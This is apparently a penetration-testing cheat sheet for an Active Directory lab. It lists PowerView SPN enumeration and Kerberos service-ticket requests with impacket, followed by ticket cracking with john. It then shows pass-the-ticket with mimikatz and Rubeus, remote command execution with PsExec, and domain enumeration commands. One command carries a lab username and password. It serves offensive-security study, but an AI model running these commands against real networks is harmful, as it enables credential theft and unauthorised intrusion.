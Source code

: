 ## Ticket with SPN
```
Get-NetUser -SPN | select samaccountname, serviceprincipalname (powerview)
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'any_SPN_here'

OR 

impacket-getST -spn CIFS/winterfell.north.sevenkingdoms.local north/robb.stark:sexywolfy -dc-ip 192.168.56.11
```

- Crack the ticket
```
impacket-ticketConverter ticket.ccache ticket.kirbi
kirbi2john ticket.kirbi >> ticket.hash
john ticket.hash --wordlist=/usr/share/wordlist/rockyou.txt
```

- Pass the ticket
```
mimikatz.exe "kerberos::ptt ticket.kirbi" or
.\Rubeus.exe triage
.\Rubeus.exe dump /luid:<luid> /nowrap
.\Rubeus.exe ptt /ticket:ticket.kirbi (or base64 ticket)
klist
.\PsExec.exe -accepteula \\hostname cmd
```

- Use Kerberos for login and other stuff (might not work)
```
impacket-ticketConverter ticket.kirbi ticket.ccache
export KRB5CCNAME=/home/kali/ticket.ccache
impacket-psexec domain/user@IP or hostname -k -no-pass
```

## Manual Enumeration with PowerView
- Users
- Groups
- Nested Groups
- Permissions of Users, Groups and Nested Groups (AD Enumeration from OffSec)
- [Cheatsheet](https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview)

### Domain
```
Get-NetDomain
Get-NetDomain -Domain <domain>
Get-DomainSID
Get-DomainPolicy
(Get-DomainPolicy)."system access"
(Get-DomainPolicy)."kerberos policy"
Get-NetDomainController
Get-NetDomainController -Domain <domain>
```
